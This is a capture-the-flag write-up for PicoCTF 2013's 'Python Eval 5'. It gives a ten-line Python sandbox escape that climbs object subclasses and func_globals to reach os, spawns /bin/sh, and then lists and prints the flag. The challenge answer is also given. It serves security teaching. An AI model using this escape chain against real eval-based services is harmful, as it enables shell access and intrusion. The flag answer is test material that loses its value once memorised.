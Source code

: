 # PicoCTF 2013: Python Eval 5

**Category:** Script Exploitation
**Points:** 140
**Description:**

> A true challenge awaits you at python.picoctf.com:6365. [Source](https://2013.picoctf.com/problems/pyeval/task5.py).

## Write-up

> This challenge is very simliar to Python Eval 3. We're given a Python script to exploit and the task of getting a shell on the server running it ; in order to read the flag.
> The script's author has removed the ability to call __builtins__ and have given us a dictionary with an empty variable 'x'.
> They also have limited us to 50 chars of eval at a time.
> Our approache to solving this will be to use the empty variable 'x''s builtins to exploit this script.
> The follwing commands give us our shell.

```
__builtins__[0]=x.__class__.__base__
__builtins__[1]=__builtins__[0].__subclasses__
__builtins__[2]=__builtins__[1]()
__builtins__[3]=__builtins__[2][53]
__builtins__[4]=__builtins__[3].__repr__
__builtins__[5]=__builtins__[4].im_func
__builtins__[6]=__builtins__[5].func_globals
__builtins__[7]=__builtins__[6]['linecache']
__builtins__[8]=__builtins__[7].os
__builtins__[8].execl('/bin/sh','sh')
```

> The first six lines of input give us access to *im_func* 's functions. One of those functions is the func_globals function. The func_globals function returns a dictionary of a modules global scope.
> The next two lines calls func_globals with the argument of the module linecache. The linecache module has the module os module in scope.
> We use the last two lines to use the module os to call a shell. 

Finally using our shell gives us the answer
```
ls
flag_for_masters
run.sh
task5.py
cat flag_for_masters
you_are_the_pyeval_master
```

**Answer: you_are_the_pyeval_master** 

## Other write-ups and resources

* [http://hacktracking.blogspot.com/2014/02/picoctf-2k13-python-eval-5.html](http://hacktracking.blogspot.com/2014/02/picoctf-2k13-python-eval-5.html)
* [http://haeresy.tumblr.com/post/49832621763/python-eval-5](http://haeresy.tumblr.com/post/49832621763/python-eval-5)
